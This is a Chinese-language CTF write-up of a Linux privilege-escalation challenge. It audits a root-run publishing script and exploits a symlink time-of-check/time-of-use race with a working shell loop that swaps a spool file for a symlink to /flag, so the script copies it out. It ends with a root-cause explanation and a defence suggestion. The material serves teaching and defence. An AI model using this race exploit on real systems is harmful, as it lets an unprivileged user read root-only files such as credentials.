



### 内网渗透与高级社工-权限提升和维持-G4

#### 题目——反正就是提权

某公司发起了一次安全众测活动，开放了一台服务器作为测试目标，只允许使用一个受限账号，官方声明这台机器已无法被进一步提权，悬赏征集反例。访问题目端口即可获得该账号（`player`）的 Web 终端。请设法取得 root 权限，读取 `/flag`，拿下这份悬赏。

#### 线索

确认身份`id`，确认flag文件权限`ls -l /`，发现果然要提权。不再赘述。

前三题的`sudo`、`SUID`确实是不再给你使用了，也不赘述。

使用`ps aux`也没看到定时任务`cron`，反而看到了一个管理员睡觉的进程`sleep 0.2`？！

`getcap`命令依旧不存在，无法很直观地查看`capabilities`属性，按下不表。

**哦对了！**在现有进程中，还看到了以root权限sh运行的脚本`/usr/local/sbin/publishd`




跟进看一下！



看来我们并不可写，但还是审计一下：

```bash
#!/bin/sh

d=/var/spool/publish
f="$d/report"
dest=/var/published/out

while true; do
    if [ -f "$f" ] && [ ! -L "$f" ]; then #如果$f是一个文件且不是一个软链接
        date >> /var/log/publish.log 2>/dev/null #记录日期时间
        cat "$f" > "$dest" 2>/dev/null #把$f的内容重定向到$dest中
        chmod 644 "$dest" 2>/dev/null #权限：root可读写，否则仅读
    fi
    sleep 0.2 #每0.2秒执行一次，所以ps中看到sleep很可能是循环脚本的休息时间
done
```

键入`ls -la /var/spool/publish`发现`report`并不存在，但是`/var/spool/publish`属主为我们自己，因此report可写。也就是可以随意控制`/var/published/out`的内容。关键利用点是这个cat可以为我们带来什么？

#### 利用链接指向文件

**这里补充一点软硬链接的知识：**

软链接（soft link），可以使用`ln -s <文件名/目录名> <链接名>`创建；软连接类似于Windows中的快捷方式，本身没有料，就是一个跳板。它可以链接到目录。

硬链接（hard link），可以使用`ln <文件名> <链接名>`创建；硬链接创建出来，是一个文件的"一体多面"，文件在磁盘中还是一份，文件的唯一标识`inode`不变，且原文件和其硬链接的`inode`相同。因此用"一体多面"形容很恰当，每一个硬链接都是一个交互面，可以这么理解。
硬链接不可以链接到目录。

该脚本中拥有**防止链接定向意识**，它写了判断条件`[ ! -L "$f" ]`，排除了`report`作为软链接指向别的文件，从而任意读取文件。

但是如果我们尝试硬链接呢？键入`ln /flag /var/spool/publish/report`，再去检查`cat /var/published/out`，发现`Operation not permitted`的结果。

可是软链接却能正确创建，说明其实软硬链接需求的权限不太一样。



#### 条件竞争

注意到脚本中在判断语句和cat执行语句之间存在一定时间差，如果我们在if判断为真之后，cat执行之前，把原本通过判断的普通文件report，换成指向`/flag`的软链接，就可以利用cat读取到flag。

咱们不可能精准地在那一个时间段中修改，但是我们只需要成功一次即可！可以使用脚本频繁切换`report`的类型，只要有一次轴对上了，flag就出来了。这就是条件竞争。

编写以下脚本，条件竞争的脚本，越简单、单条命令操作越快越好：

```bash
#!/bin/sh

d=/var/spool/publish;
f=$d/report
while true;
do
    ln -sf /flag $d/lk;mv -Tf $d/lk $f;
    touch $d/fl;mv -Tf $d/fl $f;
done
```

解析一下哈：

- `mv -Tf $d/lk $f;`mv是重命名，因为名字=路径，所以也可以看成是移动。
  
  - `mv`的底层逻辑是重命名`Rename(2)`这是原子级别的，很快。

- `-Tf`:`T`是`--no-target-directory`把mv的目标当成是一个普通文件而非目录，防止行驶“移动”的逻辑；`f`则是"覆盖"之意。

- `ln -sf /flag $d/lk;`每次mv之前都要创建一个软链接，因为后续mv是采用了覆盖的选项，执行一次mv，目录中就只剩下一个report了。

Payload：

```bash
cat > /tmp/123 << 'EOF'
#!/bin/sh

d=/var/spool/publish;
f=$d/report
while true;
do
    ln -sf /flag $d/lk;mv -Tf $d/lk $f;
    touch $d/fl;mv -Tf $d/fl $f;
done
EOF
sh /tmp/123&;
```

然后等待一会，键入`cat /var/published/out`即可。

#### 总结和防御建议

本题的突破口在于`ps aux`观察进程发现常驻脚本，使用方法和定时任务类似，需要进行审计寻找漏洞。

本题的漏洞点是条件竞争，关于其产生的根本原因：
**竞态 = 程序假定某个复合操作是原子的，而它实际由多个可被打断的步骤组成，且这些步骤之间的共享状态可被他人改写。**

针对“共享状态”的这一描述，本题防御策略之一是：不使用名字/路径定位文件，而是使用inode定位文件，这样就可以避免状态在运行时被改写。

更多关于条件竞争的内容，暂时没有太多想法了。
